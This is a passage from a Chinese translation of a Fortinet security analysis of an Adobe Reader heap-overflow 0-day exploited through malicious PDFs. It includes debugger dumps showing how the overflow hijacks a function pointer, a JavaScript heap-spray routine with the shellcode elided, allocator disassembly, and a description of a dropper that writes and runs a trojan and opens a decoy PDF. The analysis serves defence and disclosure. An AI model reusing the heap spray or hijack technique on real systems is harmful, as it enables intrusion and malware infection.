理所当然的是 `corresponding_bit` 只能是 `1` 或者 `0`。因此 `new_DWORD` 不能被设置为任意值：要么不变，要么以 `1` 递增。这就是攻击者通过比特流所能控制的所有东西。

现在原来的流为 `'00 00 20 00 00 00 10'`, 并且流中只有 `0x12` 和 `0x33` 被设置为 `1`, 因此只有 `2` 个 `DWORDs` 在 `0x12` 和 `0x33` 处会递增。

对应的 `0x80` 长度的堆块的结尾，这些 `DWORDs` 在如下偏移：

`offset1 = 0x12*4 + 0x44 - 0x80 = 0x0C`

`offset2 = 0x33*4 + 0x44 - 0x80 = 0x90`

这与在第一部分观察到的内容相匹配，但是这两个 `DWORDs` 是什么，而且为什么要递增呢？

## 2.2 控制程序执行流程

经过多次试验后，对内存的情况了然于胸，这 `2` 个 `DWORDs` 的其中之一好像是一个指针。这个指针会指向一段不断变化的内存地址的一个 `C` 语言结构。

当 `Adobe Reader` 在解析 `PDF` 页面时会使用到这个结构。多数情况下，第二个指针 `offset2,0x90` 会指向这个结构。下面给出一个例子：

首先，我们检验在溢出触发时偏移 `0x90` 处的指针递增：

代码:
```
Breakpoint 0 hit
eax=02008b1c ebx=00000001 ecx=0012ed54 edx=0438afcb esi=0438af18 edi=0012eea0
eip=009f7868 esp=0012ed3c ebp=0438afcb iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
AcroRd32!AVAcroALM\_IsFeatureEnabled+0x63e09:
009f7868 e863060000      call    AcroRd32!AVAcroALM\_IsFeatureEnabled+0x64471 (009f7ed0)
0:000> dd esp
0012ed3c  0012ed54 0438af18 02008b1c 00000000
0012ed4c  0210b734 01f2b424 0438afcb 00a8da8e 
0:000> dd 02008b1c+80+90
02008c2c  <b>0124da40</b> 00000544 0017ee98 ffffffff
02008c3c  00000000 00000000 00000000 00000000

Breakpoint 1 hit
eax=00000000 ebx=00000001 ecx=00000038 edx=00000000 esi=0438af18 edi=0012eea0
eip=009f786d esp=0012ed3c ebp=0438afcb iopl=0         nv up ei pl nz ac po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000212
AcroRd32!AVAcroALM\_IsFeatureEnabled+0x63e0e:
009f786d 83c40c          add     esp,0Ch
0:000> dd 02008b1c+80+90
02008c2c  <b>0124da41</b> 00000544 0017ee98 ffffffff
02008c3c  00000000 00000000 00000000 00000000

```

溢出之前，此结构的指针为 `0x0124da40`, 溢出之后，变成了 `0x0124da41`。

接下来的图片显示出当溢出发生后结构如何访问：



图 4：进入 ShellCode

首先，结构的地址赋给 `EAX`。接着这个结构的第一个 `DWORD` 值被读取。如果这个值大于 `0x90`, 会接着读取存储在偏移 `0x90` 的值 `[*+0x90]`, 译者注 `实际上是这个结构的开始处`：偏移处的值作为一个函数的指针读取并赋给 `EAX`。最终，如果函数指针不为空，就回跳入这个函数执行 `Call EAX` 译者注。

因此，攻击者真正的目标是改变这个结构偏移 `0x90` 处的函数指针的值 `注意：结构的指针和堆块使用同样的 0x90` 处的偏移，这仅仅是个巧合`。这样改变了函数的指针就获得对执行流程的控制。做到如此，攻击者只能递增这个结构的指针 `通过比特流，不明白查看之前的几节`，因此通过一个字节就改变了这个结构的整个值。他不能设置结构的指针为任意值，这个漏洞利用开发是相当取巧的。

这可以从对在正常和攻击 `换言之就是漏洞利用被触发时` 情况下的内存状态进行比较得出。转储这个结构在正常状态下的结果为：

代码:
```
0:000> dd 0124da40
0124da40  0000010c 00965450 00968cc0 00aae890
0124da50  01021e10 01024380 01021e40 01024430
0124da60  009671c0 010243e0 00971670 01022e80
0124da70  00a468c0 00970d10 0096f060 00964e80
0124da80  0096f7d0 0096fe30 00961ca0 0095c060
0124da90  010228e0 00000000 00000000 00000000
0124daa0  00000000 00000000 00000000 00000000
0124dab0  00000000 00960420 00000000 00000000
0124dac0  0099f2e0 00970750 009712d0 00971420
0124dad0  00000000 00a03950 00a1ced0 01022c10
0124dae0  01022cc0 01022d40 00000000 00000000

```

正常情况：尽管 `0x1c` 大于 `0x90`, 因函数在偏移 `0x90(0x012dad0)` 处的指针为 `0`, 什么都不会发生。

但是在攻击状态下，溢出发生后 `请注意当字节改变时结尾处的变化`：

代码:
```
0:000> dd 0124da41
0124da41  50000001 c0009654 9000968c 1000aae8
0124da51  8001021e 40010243 3001021e c0010244
0124da61  e0009671 70010243 80009716 c001022e
0124da71  1000a468 6000970d 800096f0 d000964e
0124da81  300096f7 a00096fe 6000961c e00095c0
0124da91  00010228 00000000 00000000 00000000
0124daa1  00000000 00000000 00000000 00000000
0124dab1  20000000 00009604 00000000 e0000000
0124dac1  500099f2 d0009707 20009712 00009714
0124dad1  50000000 d000a039 1000a1ce c001022c
0124dae1  4001022c 0001022d 00000000 00000000

```

因为 `0x50000001` 大于 `0x90`, 并且 `0x50000000` 不为 `0`, 程序流程会被转换到 `0x5000000`。

应当指出。有时指针 `1` `偏移 0x0c 相对于 0x80` 长度堆块的结尾`会指向这个结构，这就是为什么攻击者很容易的递增指针。

攻击者不能改变任意其他的 `DWORDs` 值，因为改变这两个的最低限度是使漏洞利用得以运行。改变任意其他 `DWORDs` 很有可能导致应用程序在控制 `EIP` 之前就挂掉。

## 2.3 堆喷射

如上所述，攻击者并不能精确的控制函数指针最终跳往的地点，他只能使它指向 `0x50000000` 这个地址，幸运的是，这里通常属于堆，因此使用 `ShellCode` 填充堆有助于确保恶意代码最终从 `0x50000000` 处开始执行。

这里是用经典的 `JavaScript` 堆填充代码实现的。`图 5` `这里以文字给出，译者注`

代码:
```
function urpl(sc){
var keyu= "%u";
var re = /XX/g;
sc = sc.replace(re,keyu);
return sc;
}
function xxsc(sc){
var sprdataxx = "XX9090XX9090";
var esprpl=unescape;
var urpled = esprpl(urpl(sc));
var blknum = 0x41000;
var sprdata = esprpl(urpl(sprdataxx));

while(sprdata.length<blknum)
    sprdata+=sprdata;
sprblk=sprdata.substring(0,sprdata.length);
scblk=urpled.substring(0,urpled.length);
memory=new Array();
for(x=0;x<1700;x++)
    memory\[x\]=sprblk+scblk;
}
var s = "XXec81XX(此处为 ShellCode)
var a=app.viewerVersion;
if (a >= 9) xxsc(s);
else while(1){};

```

图 5: 用作填充物理内存的解码过的 `JavaScript`。

## 2.4 击溃 Adobe 的堆内存管理系统

为什么使用 `0x80` 作为分配的的伪造堆块长度？换句话说，为什么选择 `0x4000000E` 作为参数 `X` 的值？

一般来说，在 `Windows` 系列系统中堆内存的分配最终会调用系统级 `API RtlAllocateHeap` 来申请分配堆块。在这样一个情况下，对应用程序来说内存块的返回值是不确定的。

但是，`Adobe Reader` 有着自身的堆管理例程，如果堆块的长度小于或者等于 `0x80` 个字节，请求就不会提交到系统级的堆管理例程，与之对应的，`Adobe Reader` 自身的内存管理例程会寻找一个适当的循环通过比较被请求的分配大小。

接下来就是在 `Acrod32.dll` 中函数 `acro_allocate_routine` 的有关代码：

代码:


```text
.text:003042DC                  push    offset stru_E886F0  ; lpCriticalSection
.text:003042E1                  mov     [esp+1Ch+allocate_len], offset stru_E886F0
.text:003042E9                  call    ds:EnterCriticalSection
.text:003042EF                  cmp     edi, 80h        ; allocate_len>0x80?
.text:003042F5                  mov     [esp+18h+var_4], 0
.text:003042FD                  ja      short loc_30433B  ; allocate_len=0x80, no jumping here
.text:003042FF                  movzx   eax, ds:byte_BFD898[edi]
.text:00304306                  mov     ecx, [esi+eax*4+0Ch]   ; get structure pointer which manages all recycled 0x80-length blocks
.text:00304306                                          
.text:0030430A                  mov     eax, [ecx+4]      ; the first recycled 0x80-length block
.text:0030430D                  test    eax, eax
.text:0030430F                  jz      short loc_30432F
.text:00304311                  mov     esi, eax
.text:00304313                  mov     eax, [eax+4]      ; next block
.text:00304316                  test    eax, eax
.text:00304318                  mov     edx, [esi-4]
.text:0030431B                  mov     [ecx+4], eax      ; take off the first block from the list
.text:0030431E                  jz      short loc_304326   ; how many recycled blocks have been reused
.text:00304320                  mov     dword ptr [eax], 0
.text:00304326
.text:00304326 loc_304326:                              ; CODE XREF: acro_allocate_routine+7Ej
.text:00304326                  add     dword ptr [edx+4], 1 ; how many recycled blocks have been reused
.text:0030432A                  jmp     loc_3043C4      ; exit, return the first block for use
```

可以观察到并没有跳入系统级管理例程去分配一段新的堆块，相应的，它重新使用被应用程序自己认为已经被“释放”的堆块（换句话说，实际上系统并没有释放这段内存）。

因此，可以相当容易的预测这段重新使用的内存内容（或者至少相对稳定）。

并且这表明在 Adobe Reader 中存在相当有效的办法在堆基础上利用此溢出漏洞。

### 3：利用程序的动作和嵌入的 ShellCode 的记录

JavaScirpt 中的 ShellCode 部分只做了一件事情：在 PDF 中找到并执行另一段 ShellCode。

很明显的是，ShellCode 通过使用 API 函数 `GetFileSize` 对从 0 开始的每个句柄同目标大小进行比对，以此找到 PDF 文档的句柄。



图 6：从 POC 文档中寻找文件句柄

原来的 C 代码可能读起来像这样：

代码:

```
DWORD dwTestHandle=0;

//test all the handles, with step 4.
while (1)
{
  dwFileSize = GetFileSize(dwTestHandle,0);
  if ((dwFileSize != -1) && (dwFileSize>=0x2000))
  {
    break;
  }
  dwTestHandle = dwTestHandle +4;
}
//obtain the self file handlesuccessfully
```

接着，通过已经获得的文件句柄去找到并执行新的已经嵌入在 PDF 文档中的 ShellCode：



图 7：跳转到 POC 文档中的另一段 ShellCode.

另外需要注意的是，这并不新颖。一年多以前“幻影军团”曾经使用“查找并执行 ShellCode”的方法在一个恶意的 PDF 文档中。

新的 ShellCode 会执行以下动作：

1).从初始 PDF 文档中生成一个可执行文件并执行，这实际上是被我们的杀毒软件检测出来为“W32/Protux.GK!tr”的病毒。

2).从初始 PDF 文档中生成一个正常的 PDF 文档，并使用 Adobe Reader 打开并使用同样正常的文档内容覆盖当前打开的恶意 PDF 文档：以取得完美的伪装效果。从结果来看，伪装文件的名字为:“The question of the charter of pro-democracy moment.pdf”，存放在系统 Temp 目录下。

接下来是关于新 ShellCode 的关键点。



图 8：第一步在 Temp 目录下生存 exe 文件



图 9：第二步执行生成的 exe 文件



图 10：第三步生成伪装的 PDF 文档



图 11：第四步用 Adobe Reader 打开伪装的 PDF 文档

### 结论：

回头看这次 0day 攻击的整个过程，每一个部分不管是漏洞触发，开发利用，漏洞背后的逻辑关系，促使改变漏洞还是最后的 ShellCode 都是相当有技巧性的。

这个漏洞利用程序通过堆喷射的方法也会在将来的 Adobe Reader 漏洞用到，特别是它自身的创新。

FortiGuard 已经发布了 FGA-2009-35 公告来应对这个问题，这与 Adobe 的安全公告:APSB09-15 相一致。对我的客户来说高级 0day 保护已经是可以使用的了从 2009-10-9。

当我们的杀毒软件检测到 PDF 利用程序为“W32/Protux.GK!exploit”并且生成的可执行文件为“W32/Protux.GK!tr”时，IPS 会以“Adobe.Reader.Decode.Color.Remote.Code”标示出。

我们再次建议 Adobe Reader 和 Acrobat 尽快升级应用程序到最新版本。

Disclaimer(以下为一些免责声明及公司简介，与技术无关，故不作翻译，译者注)

Although Fortinet has attempted to provide accurate information in these materials, Fortinet assumes no legal responsibility for the accuracy

or completeness of the information. More specific information is available on request from Fortinet.

Please note that Fortinet's product information does not

constitute or contain any guarantee, warranty or legally binding representation, unless expressly identified as such in a duly signed writing.

About Fortinet ( http://www.fortinet.com/ ):

Fortinet is the pioneer and leading provider of ASIC-accelerated unified threat management, or UTM, security systems,

which are used by enterprises and service providers to increase their security while reducing total operating costs.

Fortinet solutions were built from the ground up to integrate multiple levels of security protection--including firewall, antivirus,

intrusion prevention, VPN, spyware prevention and anti-spam -- designed to help customers protect against network and content level threats.

Leveraging a custom ASIC and unified interface,

Fortinet solutions offer advanced security functionality that scales from remote office to chassis-based

solutions with integrated management and reporting.

Fortinet solutions have won multiple awards around the world and are the only

security products that are certified in six programs by ICSA Labs: (Firewall, Antivirus, IPSec, SSL, Network IPS, and Anti-Spyware). Fortinet is privately

held and based in Sunnyvale, California.

上传的附件

|   
||  |

|  || [translate_CVE-2009-3459.pdf.rar](http://bbs.pediy.com/showthread.php?t=100735)[PDF 版本,点击连接到网站上下载]  |

